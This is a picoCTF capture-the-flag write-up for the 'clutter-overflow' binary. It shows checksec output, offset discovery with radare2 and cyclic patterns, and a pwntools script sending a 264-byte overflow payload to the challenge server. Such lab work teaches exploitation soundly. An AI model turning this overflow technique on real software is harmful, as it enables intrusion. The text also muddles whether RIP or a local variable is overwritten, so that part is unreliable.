





# clutter-overflow: Buffer Overflow on `chall` – picoCTF

## 🧩 Challenge Info

* **Name:** Unknown (`chall`)
* **Category:** Binary Exploitation
* **Platform:** Linux x86\_64
* **Protections:** You should verify this via `checksec` — for now, assuming it's a simple BOF.

---

## 🛠️ Tools Used

* `pwntools` (for scripting)
* `checksec` (to see binary protections)
* `gdb` / `pwndbg` (for analysis)
* `cyclic` (to find offset) or `ragg2` with `wopO`

---

## 🔍 Step-by-Step Exploitation

### 1. Recon: Check Binary Security

```bash
checksec ./chall
```

You’ll likely see:

```
[*] './chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (or yes depending on binary)
```

Key Points:

* **No Canary** → Classic BOF is possible.
* **No PIE** → Binary addresses are static (useful for ROP or function calls).

---

### 2. Finding the Offset

To determine where the address of code variable is to overwrite it:



we know that the value of the code is by default 0 , but how can we find it we can use `afvd` command of r2 to find this 



now here we can see both the buffer(clutter) and the code(long) variable and their address by looking at the address we can see that it does not lie in this stack dump we need to increase the size of stack dump to see the variable 




now we can see the variable(code) at the given offset now we use cyclic pattern ([de-bruijn-sequences](https://en.wikipedia.org/wiki/De_Bruijn_sequence)) to find its offset from the cluuter so we could overwrite it 




Result: Offset is `264` bytes 

<br>

---


### 3. Building the Exploit

Payload:

```python
payload = b"A" * 264 + p64(0xdeadbeef)
```

* `A` \* 264 → Fills the buffer to overwrite RIP.
* `p64(0xdeadbeef)` → Overwrites RIP with `0xdeadbeef`. Replace with a real address later.

### 4. Writing the Exploit Script

```python
from pwn import *

DEBUG = False  
HOST = 'mars.picoctf.net'
PORT = 31890

elf = context.binary = ELF('./chall') 
context.log_level = 'debug'
context.bits = 64

if DEBUG:
    p = process()
else:
    p = remote(HOST, PORT)

offset = 264
payload = b"A" * offset + p64(0xdeadbeef)

p.sendline(payload)
p.interactive()
```

---

## 🏁 Flag




---
